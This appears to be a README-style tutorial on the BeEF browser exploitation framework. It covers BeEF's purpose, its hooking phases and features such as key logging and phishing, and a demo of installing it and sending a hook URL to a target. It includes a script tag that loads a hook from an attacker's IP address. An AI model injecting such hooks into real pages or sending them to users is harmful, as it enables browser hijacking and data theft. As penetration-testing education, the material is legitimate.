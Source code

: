# BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [3][3]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3][3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4]. 
```javascript
<script src="http://Attacker’s_IP_Address:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [5][5],[6][6]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [5]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [3][3]. 
## Demonstration
This is a short demonstration on how BeEF Framework works on LAN networks. To start, you can install BeEF in few quick steps. (See [7][7] if you encouter any errors)
```console
$ git clone https://github.com/beefproject/beef.git
$ cd /beef
$ ./install
```
Now you are ready to launch BeEF by typing:
```console
$ beef-xss
```
Now, BeEF will start on your coomand line and will open a web user interface
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Start.png)
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/BeEF_Authentication.png)
After inserting your credentials, you can now access the user panel.
![alt text](https://github.com/yazan828/BeEF-Framework/blob/main/UI.png)
Send the following hook to the targeted browser
```
http://Your_IP_Address:3000/demos/butcher/index.html
```
Once the user opens the URL, the targeted browser is now hooked

[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[4]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[5]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[6]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
[7]: https://github.com/beefproject/beef
